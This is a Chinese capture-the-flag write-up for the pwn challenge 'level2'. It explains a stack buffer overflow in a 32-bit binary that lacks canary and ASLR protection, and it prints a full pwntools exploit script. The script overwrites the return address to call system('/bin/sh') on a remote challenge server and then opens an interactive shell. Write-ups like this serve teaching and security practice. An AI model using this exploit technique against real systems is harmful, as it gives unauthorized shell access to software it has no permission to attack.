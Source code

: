 ## [level2](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5055&page=1)

![level2](../../../images/level2.png)

题目中明示使用 `面向返回的编程`(ROP) ，通过`checksec`发现32位elf且没有金丝雀值保护和地址随机化。所以只需要使用system函数的地址和参数地址覆盖就可以完成。

通过反汇编和gdb中find找到所需要的函数system地址为`0x8048320`，字符串`/bin/sh`的地址为`0x804a024`

![level22](../../../images/level22.png)

![level23](../../../images/level23.png)

exploit.py

```python
from pwn import *

context.log_level = "DEBUG"

# p = process("./level2")
p = remote("111.198.29.45", 43192)
# gdb.attach(p)

sysaddr = 0x08048320
binshaddr = 0x804a024

payload = "a" * 0x8c + p32(sysaddr) + p32(0) + p32(binshaddr)
# 0x88覆盖申请的栈空间，0x4覆盖ebp，sysaddr覆盖返回函数地址，0作为sys函数取参数的填充，
# binshaddr是字符串"/bin/sh"的地址

# p.recvuntil("Input:\n")
p.sendline(payload)
# p.recvuntil("Hello World!\n")
p.interactive()
```



